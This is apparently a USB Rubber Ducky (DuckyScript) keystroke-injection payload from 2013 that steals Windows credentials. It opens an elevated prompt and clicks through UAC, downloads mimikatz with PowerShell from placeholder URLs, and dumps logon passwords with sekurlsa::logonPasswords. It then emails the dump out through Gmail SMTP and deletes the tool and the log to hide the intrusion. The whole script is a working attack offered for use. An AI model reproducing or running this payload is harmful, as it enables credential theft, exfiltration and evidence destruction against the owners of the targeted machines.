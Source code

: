 REM Author: Pesce
REM Date: 10/20/2013
REM Note: Thanks to all the help everyone! This is my first attempt, don't be to upset!
REM -------------open command prompt with admin privileges
DELAY 3000
CONTROL ESCAPE
DELAY 1000
STRING cmd
DELAY 1000
CTRL-SHIFT ENTER
DELAY 1000
ALT y
ENTER
DELAY 300
REM -------------download appropriate mimikatz for architecture
STRING powershell if ([System.IntPtr]::Size -eq 4) { (new-object System.Net.WebClient).DownloadFile('http://url to 32bit mimikatz.exe','%TEMP%\pw.exe');  }else{ (new-object System.Net.WebClient).DownloadFile('http://url to 64bit mimikatz.exe','%TEMP%\pw.exe');}
ENTER
DELAY 5000
REM -------------get the passwords and save to c:\pwlog.txt
STRING %TEMP%\pw.exe > c:\pwlog.txt & type pwlog.txt;
ENTER
DELAY 2000
STRING privilege::debug
ENTER
DELAY 1000
STRING sekurlsa::logonPasswords full
ENTER
DELAY 1000
STRING exit
ENTER
DELAY 300
STRING del %TEMP%\pw.exe
ENTER
DELAY 300
REM -------------email log via gmail
STRING powershell
ENTER
DELAY 300
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('gmailuser', 'gmail password');
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'sending email account'
ENTER
STRING $ReportEmail.To.Add('email account to send report')
ENTER
STRING $ReportEmail.Subject = 'Duck Report'
ENTER
STRING $ReportEmail.Body = 'Attached is your duck report.' 
ENTER
STRING $ReportEmail.Attachments.Add('c:\pwlog.txt')
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
DELAY 1000
STRING exit
ENTER
REM ---------------------delete and end
STRING del c:\pwlog.txt
ENTER
DELAY 300
STRING exit
ENTER
